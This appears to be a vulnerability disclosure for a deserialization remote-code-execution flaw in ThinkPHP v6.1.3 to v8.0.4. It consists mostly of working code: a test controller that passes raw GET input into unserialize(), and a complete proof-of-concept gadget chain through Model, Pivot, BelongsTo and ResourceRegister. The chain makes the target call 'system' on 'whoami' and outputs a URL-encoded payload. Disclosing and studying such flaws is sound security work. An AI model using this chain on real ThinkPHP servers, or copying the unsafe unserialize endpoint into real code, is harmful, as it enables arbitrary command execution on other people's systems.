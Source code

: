 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the Mongo class

 

## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php

namespace think\db;
class Mongo{
}

namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;
use think\db\Mongo;


class BelongsTo{
    protected $query;
    protected $parent;
    protected $foreignKey;
    function __construct(){
        $this->query=true;
        $this->parent=new Mongo();
        $this->foreignKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\BelongsTo;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new BelongsTo();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```



![image-20240912111225920](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912111225920.png)
